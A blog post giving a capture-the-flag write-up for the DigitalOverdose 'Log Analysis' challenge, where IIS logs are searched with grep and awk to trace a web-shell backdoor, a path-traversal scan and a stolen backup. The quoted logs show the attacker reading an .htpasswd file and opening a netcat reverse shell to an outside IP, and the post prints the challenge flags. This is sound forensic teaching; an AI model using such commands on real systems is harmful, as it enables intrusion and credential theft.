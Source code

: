 ```yaml
---
title:  "#writeup: DigitalOverdose - Log Analysis"
layout: post
date:   2021-10-10
ctfs: true
permalink: /writeup-dover21
redirect_to: https://scavengersecurity.com/posts/digitaloverdose-loganalysis/
author: jartigag
tag:
- ctf
- análisis
- cybersec
- windos
mastodonReplies: https://mastodon.social/@jartigag/107079704581201058
twitterReplies: https://twitter.com/jartigag/status/1447522555275927552
---
```


[https://scavengersecurity.com/posts/digitaloverdose-loganalysis/](https://scavengersecurity.com/posts/digitaloverdose-loganalysis/)

```
original writeup metadata:
---
title: Log Analysis
event: DigitalOverdose RACTF
date: 2021-10-09
discipline: log analysis
difficulty:
    - easy, 100 points. 34 solves when solved [2021-10-09 11:57 CEST], 133 solves at end [2021-10-10 21:50:33 CEST]
    - easy, 150 points. 17 solves when solved [2021-10-09 11:57 CEST], 100 solves at end [2021-10-10 21:50:33 CEST]
    - easy, 200 points. 13 solves when solved [2021-10-09 11:57 CEST],  84 solves at end [2021-10-10 21:50:33 CEST]
author: jartigag
tags: iis logs, access logs, grep, awk
---
```

# Log Analysis

> An incident has affected our website! Fortunately, we have logs.

This is a 3-part challenge. Two IIS logs are provided:

```bash
$ ll *log
9,4M attack.log
 46M more.log
$ for f in *log; do cat $f | (head -2; tail -1); done
#Fields: date time s-ip cs-method cs-uri-stem cs-uri-query s-port cs-username c-ip cs(User-Agent) cs(Referer) sc-status sc-substatus sc-win32-status time-taken
2021-09-01 00:28:00 135.233.142.30 GET polyfills-es5.9fba121277a252cdf0fa.js - 443 - 83.147.40.142 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.1;+WOW64;+Trident/5.0) - 200 0 0 22
2021-09-06 23:49:22 135.233.142.30 GET conference - 443 - 194.48.242.119 Mozilla/4.0+(compatible;+MSIE+7.0;+Windows+NT+5.1) https://digitaloverdose.tech/ctf 200 0 0 20
#Fields: date time s-ip cs-method cs-uri-stem cs-uri-query s-port cs-username c-ip cs(User-Agent) cs(Referer) sc-status sc-substatus sc-win32-status time-taken
2021-08-01 00:27:00 45.85.1.176 GET cdn-cgi/scripts/5c5dd728/cloudflare-static/email-decode.min.js - 443 - 185.251.117.121 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1;+SV1;+.NET+CLR+1.1.4322) - 200 0 0 24
2021-08-31 23:34:04 45.85.1.176 GET privacy - 443 - 31.185.221.23 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1) https://digitaloverdose.tech/dovercon/2021 200 0 0 20
```

## 1 - Ingress

> Our website was hacked recently and the attackers completely ransomwared our server!
> We've recovered it now, but we don't want it to happen again.
> Here are the logs from before the attack, can you find out what happened?

We start inspecting some log fields, looking for something uncommon. For example, in the [`cs(Referer)` field](https://en.wikipedia.org/wiki/HTTP_referer):
```shell
$ awk '{print $(NF-4)}' attack.log | sort | uniq -c | sort -nr
   6947 -
   1343 https://digitaloverdose.tech/dovercon/sponsoring-edition-2021
   1318 https://digitaloverdose.tech/dovercon/2021/speakers
   1286 https://digitaloverdose.tech/dovercon/2021/code-of-conduct
   1278 https://digitaloverdose.tech/dovercon/2021/about
   1268 https://digitaloverdose.tech/dovercon/2021
   1262 https://digitaloverdose.tech/privacy
   1255 https://digitaloverdose.tech/ctf/2021-autumn
   1230 https://digitaloverdose.tech/team
   1225 https://digitaloverdose.tech/faq
   1224 https://digitaloverdose.tech/dovercon/2021/cfp
   1214 https://digitaloverdose.tech/copyright
   1213 https://digitaloverdose.tech/ctf/2021-spring
   1210 https://digitaloverdose.tech/dovercon
   1210 https://digitaloverdose.tech/conference
   1208 https://digitaloverdose.tech/dovercon/2021/sponsoring
   1206 https://digitaloverdose.tech/dovercon/cfp-edition-2021
   1205 https://digitaloverdose.tech/dovercon/team-edition-2021
   1204 https://digitaloverdose.tech/home
   1202 https://digitaloverdose.tech/ctf/about
   1197 https://digitaloverdose.tech/
   1194 https://digitaloverdose.tech/ctf
   1149 https://digitaloverdose.tech/dovercon/schedule-edition-2021
   1149 https://digitaloverdose.tech/dovercon/2021/mentors
   1135 https://digitaloverdose.tech/dovercon/2021/schedule
   1118 https://digitaloverdose.tech/dovercon/2021/team
   1090 https://digitaloverdose.tech/dovercon/speakers-edition-2021
      7 https://digitaloverdose.tech/ywesusnz
      1 cs(Referer)
```

What is that `ywesusnz`? Let's look which requests were made from that URI:
```shell
$ grep ywesusnz attack.log
2021-09-06 20:44:19 135.233.142.30 GET ywesusnz cmd%3Dcd+.. 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/faq 200 0 0 20
2021-09-06 20:44:45 135.233.142.30 GET ywesusnz cmd%3Dpwd 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 26
2021-09-06 20:45:04 135.233.142.30 GET ywesusnz cmd%3Dwhoami 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 25
2021-09-06 20:45:16 135.233.142.30 GET ywesusnz cmd%3Dhostname 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 25
2021-09-06 20:45:46 135.233.142.30 GET ywesusnz cmd%3Dnetstat+-peanut 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 21
2021-09-06 20:46:04 135.233.142.30 GET ywesusnz cmd%3Dcat+%2Fvar%2Fwww%2F.htpasswd 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 22
2021-09-06 20:46:12 135.233.142.30 GET ywesusnz cmd%3Dcat+RE97YmV0dGVyX3JlbW92ZV90aGF0X2JhY2tkb29yfQ== 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 26
2021-09-06 20:46:19 135.233.142.30 GET ywesusnz cmd%3Dnc+-e+%2Fbin%2Fsh+207.35.160.84+4213 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 20
$ echo RE97YmV0dGVyX3JlbW92ZV90aGF0X2JhY2tkb29yfQ== | base64 -d
DO{better_remove_that_backdoor}
```

## 2 - Investigation

> Thanks for finding the RFI vulnerability in our FAQ.  We have fixed it now, but we don't understand how the attacker found it so quickly.
> We suspect it might be an inside job, but maybe they got the source another way.  Here are the logs for the month prior to the attack, can you see anything suspicious?
> Please submit the attackers IP as the flag as follow, DO{x.x.x.x}

What characters would a suspicious request contain (maybe looking for a [path transversal attack](https://en.wikipedia.org/wiki/Directory_traversal_attack))?

```shell
$ grep "\.\." more.log | (head -3; tail -1)
2021-08-03 08:55:00 45.85.1.176 GET ../..//passwords.bckp - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 27
2021-08-03 08:55:00 45.85.1.176 GET ..//configuration.3 - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 22
2021-08-03 08:55:00 45.85.1.176 GET ../../..//db_config.1 - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 25
2021-08-03 08:55:08 45.85.1.176 GET ../..//admin.txt - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 30
```

So we compose the flag with the client IP:

`DO{200.13.84.124}`

## 3 - Backup Policy

> So it looks like the attacker scanned our site for old backups right?  Did he get one?

Filtering the attack date and excluding the "404 - Not found" response code:

```bash
$ grep "2021-08-03 08:55" more.log | grep -v 404
2021-08-03 08:55:00 45.85.1.176 GET 8-es2015.9f210c2bd083cdacb0ee.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) - 200 0 0 22
2021-08-03 08:55:00 45.85.1.176 GET dovercon/speakers-edition-2021 - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) - 200 0 0 26
2021-08-03 08:55:00 45.85.1.176 GET backup.zip - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+RE97czNjcjN0X19fYWdlbnR9;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 200 0 0 25
2021-08-03 08:55:29 45.85.1.176 GET runtime-es5.43df09c2199138dc23a5.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 22
2021-08-03 08:55:29 45.85.1.176 GET assets/images/ctf/2021-01/offsec-logo.svg - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 27
2021-08-03 08:55:29 45.85.1.176 GET polyfills-es5.9fba121277a252cdf0fa.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 20
2021-08-03 08:55:29 45.85.1.176 GET dovercon/speakers-edition-2021 - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 21
2021-08-03 08:55:39 45.85.1.176 GET assets/images/ctf/2021-01/offsec-logo.svg - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 20
2021-08-03 08:55:39 45.85.1.176 GET polyfills-es2015.891d5b00ef96a8ae9449.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 30
2021-08-03 08:55:39 45.85.1.176 GET polyfills-es2015.891d5b00ef96a8ae9449.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 25
2021-08-03 08:55:39 45.85.1.176 GET dovercon/schedule-edition-2021 - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 25
$ echo "RE97czNjcjN0X19fYWdlbnR9" | base64 -d
DO{s3cr3t___agent}
```
